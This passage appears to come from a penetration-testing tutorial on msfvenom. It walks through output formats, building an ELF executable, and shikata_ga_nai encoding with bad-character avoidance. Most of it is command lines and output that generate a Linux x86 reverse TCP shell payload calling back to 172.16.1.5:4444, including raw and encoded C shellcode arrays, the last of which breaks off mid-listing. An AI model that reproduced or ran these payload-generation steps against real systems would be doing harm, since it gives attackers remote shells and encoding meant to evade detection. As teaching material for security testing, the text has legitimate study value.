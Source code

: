 Transforms dump the shellcode out in a format that's compatible with a number of programming languages. For example we can do `-f c` to have the payload output with the dressings needed to paste it directly into a C source. We can also use the `-v` name to set the variable that is outputted with the payload. 

```
root@mountain:~# msfvenom -p linux/x86/shell_reverse_tcp LHOST=172.16.1.5 LPORT=4444 -f c -v evil
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
Final size of c file: 312 bytes
unsigned char evil[] = 
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\xac\x10\x01\x05\x68"
"\x02\x00\x11\x5c\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1"
"\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3"
"\x52\x53\x89\xe1\xb0\x0b\xcd\x80";
```

Executables provide fully built executable formats for different systems. For example, `elf` and `exe` will provide us with a Linux ELF file and a Windows PE file respectively. These can be used with the `-o` flag to output to a file. 

```
root@mountain:~# msfvenom -p linux/x86/shell_reverse_tcp LHOST=172.16.1.5 LPORT=4444 -f elf -o evil.elf
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
Final size of elf file: 152 bytes
Saved as: evil.elf
```

At this point we can also consider specifying an encoder. Because we haven't done so thus far MSF has dumped the raw payload without any kind of encoding. The most common encoder in MSF is `x86/shikata_ga_nai`. Use the `-e` flag as you would the `-p` flag to specify the encoder. Use the `-i` flag along with an integer to specify the number of times to encode the payload. The first iteration will encode the real payload and attach a decoder stub. The second will encode the encoded payload plus its decoder stub and attach its own decoder stub. So on and so forth.

 You can also specify bad characters for the encoder to try and avoid with the `-b` flag. To use the `-b` flag you specify in quotes the C style hex escaped characters you'd like it to avoid, `-b "\x00\x22\x41"` will avoid `\x00`, `\22`, and `\41`. This can be unreliable, payloads will often be rejected and regenerated if bad characters are found. The format of this flag is important, single quotes will not work, they must be double. 

```
root@mountain:~# msfvenom -p linux/x86/shell_reverse_tcp LHOST=172.16.1.5 LPORT=4444 -f c -v evil -e x86/shikata_ga_nai -i 4 -b "\x00\x22\x41"
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 4 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai succeeded with size 122 (iteration=1)
x86/shikata_ga_nai succeeded with size 149 (iteration=2)
x86/shikata_ga_nai succeeded with size 176 (iteration=3)
x86/shikata_ga_nai chosen with final size 176
Payload size: 176 bytes
Final size of c file: 765 bytes
unsigned char evil[] = 
"\xba\xe8\xdc\xda\x8a\xdb\xdc\xd9\x74\x24\xf4\x58\x33\xc9\xb1"
"\x26\x83\xc0\x04\x31\x50\x0f\x03\x50\xe7\x3e\x2f\x30\x70\x56"
"\x11\x99\xa4\x64\x4b\x56\x7c\x9f\x37\xa4\xb5\xee\xd7\x49\xae"
"\xed\xd9\x1e\x20\x0d\x49\xb1\x25\x0c\x16\xfb\xa6\x10\xec\x53"
```